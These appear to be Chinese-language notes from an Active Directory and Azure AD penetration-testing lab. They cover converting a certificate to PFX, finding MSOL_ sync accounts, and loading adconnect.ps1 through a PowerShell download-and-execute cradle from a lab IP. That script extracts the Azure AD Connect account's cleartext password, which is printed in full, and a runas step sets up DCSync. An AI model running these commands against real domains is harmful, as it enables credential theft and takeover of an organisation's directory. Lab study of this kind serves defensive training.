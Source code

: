 ## pem转成pfx文件
```
openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```

# Azure AD

AD
枚举安装 Azure AD Connect 的机器(名称以 MSOL_ 开头的特殊帐户)
```
PS C:\Windows\system32> Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

## 使用adconnect.ps1拿到明文密码

远程加载

```
PS C:\Users\helpdeskadmin\Downloads> iex (New-Object Net.WebClient).DownloadString('http://192.168.100.138/adconnect.ps1')
```

执行命令，拿到明文密码
```
PS C:\Users\helpdeskadmin\Downloads> ADconnect
ADconnect
AD Connect Sync Credential Extract POC (@_xpn_)

AD Connect Sync Credential Extract v2 (@_xpn_)
        [ Updated to support new cryptokey storage method ]

[*] Querying ADSync localdb (mms_server_configuration)
[*] Querying ADSync localdb (mms_management_agent)
[*] Using xp_cmdshell to run some Powershell as the service user
[*] Credentials incoming...

Domain: techcorp.local
Username: MSOL_16fb75d0227d
Password: 70&n1{p!Mb7K.C)/USO.a{@m*%.+^230@KAc[+sr}iF>Xv{1!{=/}}3B.T8IW-{)^Wj^zbyOc=Ahi]n=S7K$wAr;sOlb7IFh}!%J.o0}?zQ8]fp&.5w+!!IaRSD@qYf

```

## 根据ADconnect的明文密码，执行dcsync

1. 使用明文密码获取这个用户的一个shell（教材说这一步不需要在高完整性的admin shell中进行）

```
C:\Windows\system32>runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
Enter the password for techcorp.local\MSOL_16fb75d0227d:
Attempting to start cmd as user "techcorp.local\MSOL_16fb75d0227d" ...

```
